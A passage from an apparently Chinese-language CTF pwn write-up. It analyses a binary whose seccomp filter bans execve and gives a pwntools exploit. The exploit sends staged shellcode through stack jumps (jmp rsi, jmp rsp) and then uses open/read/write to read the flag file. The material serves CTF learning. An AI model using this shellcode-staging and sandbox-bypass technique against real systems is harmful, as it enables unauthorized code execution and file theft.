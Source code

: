 ```
  v5 = 0;
  v6 = 4;
  v7 = 21;
  v8 = 0;
  v9 = 2;
  v10 = 0xC000003E;
  v11 = 32;
  v12 = 0;
  v13 = 0;
  v14 = 0;
  v15 = 21;
  v16 = 0;
  v17 = 1;
  v18 = 59;
  v19 = 6;
  v20 = 0;
  v21 = 0;
  v22 = 0;
  v23 = 6;
  v24 = 0;
  v25 = 0;
  v26 = 0x7FFF0000;
  v1 = 6;
  v2 = &v3;
  prctl(38, 1LL, 0LL, 0LL, 0LL);
  return prctl(22, 2LL, &v1);
}
```


最核心的两个函数prtcl38和prtcl22可以看出来是把直接取得shell的方式ban掉了，稳健一下看看seccomp：![NSSIMAGE](https://www.nssctf.cn/files/2023/4/17/6be526267c.jpg)  
可以看出来只有execve被ban了，和我们想的一样，也就是标准orw。  
orw问题推荐一篇博客：  
https://www.jianshu.com/p/754b0a2ae353  
很不错可以看看。  
具体就是用open打开flag，read读取flag，write写出flag。  
最开始尝试着用类似我之前给出的那道题目的方式去做，方法即：

```
stack_start=0x7ffffffde000
payload=asm(shellcraft.read(0,stack_start,0x50))#把ORW组合读到栈上
payload+=asm("jmp rsi")
payload=payload.ljust(0x28,b'\x00')

jmp_rsp=0x40094E
payload+=p64(jmp_rsp)#跳到rsp就相当于到达下一句话
payload+=asm("sub rsp,48;jmp rsp")#返回到payload最初的位置，偏移量需要自己测算
payload=payload.ljust(0x40,b'\x00')
io.send(payload)

payload2=asm(shellcraft.open('./flag'))
payload2+=asm(shellcraft.read(3,0x601068,0x50))
payload2+=asm(shellcraft.write(1,0x601068,0x50))#经典ORW组合

io.send(payload2)
io.interactive()
```
